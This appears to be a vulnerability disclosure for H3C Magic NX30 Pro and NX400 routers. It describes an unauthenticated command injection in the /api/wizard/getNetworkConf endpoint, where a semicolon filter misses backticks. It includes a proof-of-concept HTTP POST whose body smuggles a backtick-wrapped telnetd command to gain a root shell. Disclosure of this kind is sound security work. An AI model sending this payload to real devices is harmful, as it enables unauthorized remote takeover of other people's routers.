 # Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Du Guang Xu(2113115252@qq.com)，Yang Ke Yan(1670227058@qq.com)

**Affected products:** H3C Magic NX30 Pro\H3C NX400

**Affected firmware version:** <=V100R014 

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

# Overview

In the `H3C Magic` series products, `H3C Magic NX30 Pro` and `H3C NX400` allow an attacker to send a specially crafted `POST` request to the `/api/wizard/getNetworkConf` route without authorization, enabling remote code execution with the highest privileges.



# Vulnerability details

When the route is `/wizard/getNetworkConf`, it can enter its handler function.

![image-20250314113745284](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250314113745284.png)

`v14` is user-controllable. Although the `FCGI_CheckStringIfContainsSemicolon` function is used to filter dangerous characters, it fails to filter backticks, leading to command injection.

![image-20250314113946900](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250314113946900.png)



# POC

```
POST /api/wizard/getNetworkConf HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

